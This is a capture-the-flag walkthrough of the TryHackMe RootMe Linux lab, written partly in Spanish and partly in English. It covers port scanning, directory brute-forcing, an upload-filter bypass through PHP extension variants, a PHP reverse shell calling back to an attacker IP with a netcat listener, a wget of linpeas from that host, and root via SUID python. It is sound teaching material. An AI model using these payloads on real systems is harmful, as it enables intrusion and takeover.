 [Read on English](README.md)

# RootMe - WriteUp/Walkthrought [THM]

## PWNED By 14Wual

[Github](https://github.com/14wual):  14wual <br>
[Twitter](https://twitter.com/14wual): 14wual <br>
[YouTube](https://youtube.com/@wual): @wual <br>
[Paǵina Web](https://14wual.github.com) <br>

## Acerca del Laboratorio

**Nivel**: Easy <br>
**Sistema Operativo**: Linux <br>

## Recopilación

`Nmap`, hacemos un análisis rápido de todos los puertos, sin resolución `DNS` y resultados a tiempo real:

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -Pn -n 10.10.31.212
```

Output:

```
[sudo] password for wual: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-29 08:43 CEST
Initiating SYN Stealth Scan at 08:43
Scanning 10.10.31.212 [65535 ports]
Completed SYN Stealth Scan at 08:43, 18.67s elapsed (65535 total ports)
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 18.76 seconds
           Raw packets sent: 93538 (4.116MB) | Rcvd: 81877 (3.275MB)
```

Como no me dió información ninguna, vamos ha realizar el siguiente escaneo:

```
sudo nmap -p- -sCV 10.10.31.212
```

Esta vez sí, tenemos `ssh` y una página web, puerto `80`, output:

```
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Este es el contenido de la página web:

![web-content](images/web-content.png)

Esta es una página web que no nos resuelve ningun dato, asi que vamos buscar sitios ocultos con feroxbuster, ffuf y gobuster (depende de si nos reportan info o no las usaremos o no.). `Feroxbuster`:

```
feroxbuster -u http://10.10.31.212/ 
```

Ferox, nos ha reportado información bastante valiosa, entre ella resaltamos la carpeta `/uploads`, este es el resultado final:

```
301      GET        9l       28w      309c http://10.10.31.212/js => http://10.10.31.212/js/
301      GET        9l       28w      310c http://10.10.31.212/css => http://10.10.31.212/css/
200      GET       11l       22w      263c http://10.10.31.212/js/maquina_de_escrever.js
200      GET      105l      188w     1697c http://10.10.31.212/css/home.css
301      GET        9l       28w      314c http://10.10.31.212/uploads => http://10.10.31.212/uploads/
301      GET        9l       28w      312c http://10.10.31.212/panel => http://10.10.31.212/panel/
200      GET       25l       44w      616c http://10.10.31.212/
```

Si entramos en panel veremos el siguiente contenido:

![page-panel](images/page-panel.png)

Vamos ha probar ha subir un archivo con extensión `.php`, para ver como reacciona, y de paso interceptar la solicitud `http` con `burpsuite` por si nos arroja información. El archivo llevará la siguiente información:

```php
<?php echo "Hello, world!"; ?>
```

Al interceptar la petición, nos dá la siguiente información:

```
POST /panel/ HTTP/1.1
Host: 10.10.31.212
Content-Length: 331
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.31.212
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjp0ssIIi6mDjXDAW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.31.212/panel/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=dpap9rnmiq4dirslctqnlkl5eo
Connection: close

------WebKitFormBoundaryjp0ssIIi6mDjXDAW
Content-Disposition: form-data; name="fileUpload"; filename="helloworld.php"
Content-Type: application/x-php

<?php echo "Hello, world!"; ?>

------WebKitFormBoundaryjp0ssIIi6mDjXDAW
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundaryjp0ssIIi6mDjXDAW--
```

![burp-1](images/burp-1.png)

Cuando aceptamos la peitición, nos salta este mensaje: **`PHP não é permitido!`**. Vamos ha probar con subir un html.

Código:

```
<!DOCTYPE html>
<html lang="en">
<head><title>PWNED by 14Wual</title></head>
<body><?php echo "Hello, world!"; ?></body>
</html>
```

Esta vez, podemos ver que sí se puede subir un html.

![upload-succesfull](images/upload-succesfull.png)

Vamos ha intentar subir código malicioso en el archvio `html`:

```
<?php -r '$sock=fsockopen("10.8.129.187",1234);exec("/bin/sh -i <&3 >&3 2>&3");' ?>
```

Por otro lado:

```
sudo nc -lvp 1234
```

Al subirlo, me he dado cuenta que la page, directly blocks all `php` content. So we have to find another way. Another way I've looked at is to create an `html` file with `js` that `fetch` a `php` file. `Script js` (in `php` we have a `reverse shell`):

```html
<button id="pwned-btn">Pwned Me</button>

<script>
     document.getElementById("pwned-btn").addEventListener("click", function() {
         console.log("Clicked!")
         fetch('http://10.8.129.187/pwned.php')
             .then(response => response.text())
             .then(data => {console.log(data);})
             .catch(error => {console.log('Error:', error);});
     });
</script>
```

Unfortunately, `server policies` block these types of connections.

```
Acess to fetch at 'http://10.8.129.187/pwned.php' from origin 'http://10.10.31.212' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.
```

We must find another way. This time, we will upload this script, you can see it [here](script/pwned.php), this is a [pentestmonkey reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/ php-reverse-shell.php). But first we are going to take `burpsuite` and make a couple of modifications to the `intruder`.

![burp-2](images/burp-2.png)

In the `intruder`, we modify this part of the `request` (the `filename` extension):

```
------WebKitFormBoundary3TIe4hBBBCF9Blkq
Content-Disposition: form-data; name="fileUpload"; filename="pwned.§php§"
Content-Type: application/x-php
```

And we will put these payloads

```
php
php3
php4
php5
phpml
```

Let's check the uploads page, in case it was uploaded:

![upload-2](images/upload-2.png)

Seeing that it was uploaded, we are going to open again the port [1234] of our page with `nc` and we will enter some uploaded file.

![first](images/first.png)

If we enter `/var/www` and do `cat user.txt` we will find the first key: `THM{*********}`

Now we will pass the linpeas to the machine:

```
wget http://10.8.129.187/linpeas_base.sh
```

It didn't give us much information and `sudo -l` doesn't work, if we do `find / -perm /4000 2>/dev/` we see that we can use `python` with `/usr/bin/python`, like this which we are going to throw in a py shell: `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'` And we are already root! If we make an id:

```
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

We do a cat `/root/root.txt` and get the flag >> THM{************}

Thank you very much for coming here!

![finish](images/finish.png)
